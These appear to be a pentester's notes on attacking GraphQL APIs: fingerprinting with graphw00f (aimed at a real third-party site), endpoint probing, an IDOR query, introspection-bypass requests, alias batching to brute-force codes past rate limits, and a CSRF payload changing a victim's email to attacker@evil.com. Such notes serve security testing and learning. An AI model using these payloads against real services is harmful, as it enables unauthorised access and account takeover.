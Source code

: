 # CLI InQL
# Fingerprint
```bash
git clone https://github.com/dolevf/graphw00f.git && cd graphw00f

# edit config file to specify UA and headers first
python main.py -d -f -t https://www.datacamp.com/groups/graphql
```

# Client
https://github.com/graphql/graphiql
```bash
npx graphiql
sudo npm install -g graphiql && graphiql

# http://localhost:4000/graphql
```

# Visualize introspected schema

# Test for graphql endpoints
Universal query
```graphql
query{__typename}
```
always returns
```json
{"data": {"__typename": "query"}}
```

Common endpoint names:
* /graphql
* /api
* /api/graphql
* /graphql/api
* /graphql/graphql
If these common endpoints don't return a GraphQL response, you could also try appending /v1 to the path. 

request methods
Common is `POST` with `application/json`, but it can variate.

#  Exploiting unsanitized arguments
For example:
```graphql
query {
	products {
		id
		name
		listed
	}
}
```
   returns
```graphql
    {
        "data": {
            "products": [
                {
                    "id": 1,
					...
                },
                {
                    "id": 2,
					...
                },
                {
                    "id": 4,
					...
                }
            ]
        }
    }
```        
so we can try to access the third product: [[IDOR]]
```graphql
query {
	product(id: 3) {
		id
		name
		listed
	}
}
```    
#  Discovering schema information
### Introspection 
Try ws protocol.
###### Burp Suite:
`GraphQL > Set introspection query`
##### Request example
```graphql
{
	"query": "{__schema{queryType{name}}}"
}
```
######  Visualizing introspection results 
https://graphql-kit.com/graphql-voyager/
 http://nathanrandal.com/graphql-visualizer/
### Suggestions
Used when instrospection is disabled.
Suggestions are messages like this:
`There is no entry for 'productInfo'. Did you mean 'productInformation' instead?`
Can be automated with https://github.com/nikitastupin/clairvoyance or Burp scanner.
###  Bypassing GraphQL introspection defenses 
`__schema` can be disabled using regex by developers.
```graphql
{
	"query": "query{__schema
	{queryType{name}}}"
}
```
Also try a `GET` request, or a `POST` request with a content-type of `x-www-form-urlencoded`.
# Bypassing rate limiting using aliases
#rate-limiting [[Brute Force]] #auth 
Aliases allows to make several queries inside one HTTP request.
It can be used for brute-force. Example:
```graphql
query isValidDiscount() {
	isvalidDiscount(code: 1){
		valid
	}
	isValidDiscount2:isValidDiscount(code: 2){
		valid
	}
	isValidDiscount3:isValidDiscount(code: 3){
		valid
	}
}
```

# Vulns
## Graphql [[CSRF]]
Possible if graphql endpoint doesn't validate `Content-Type` and `x-www-form-urlencoded` works.
Example:
```
query=mutation changeEmail($input: ChangeEmailInput!) {changeEmail(input: $input) {email}}&variables={"input":{"email":"attacker@evil.com"}}
```

# Tools
https://github.com/doyensec/GQLSpection
```
git clone --depth 1 https://github.com/dolevf/graphql-cop && cd graphql-cop

python3 graphql-cop/graphql-cop.py -t http://172.17.0.2/graphql
```
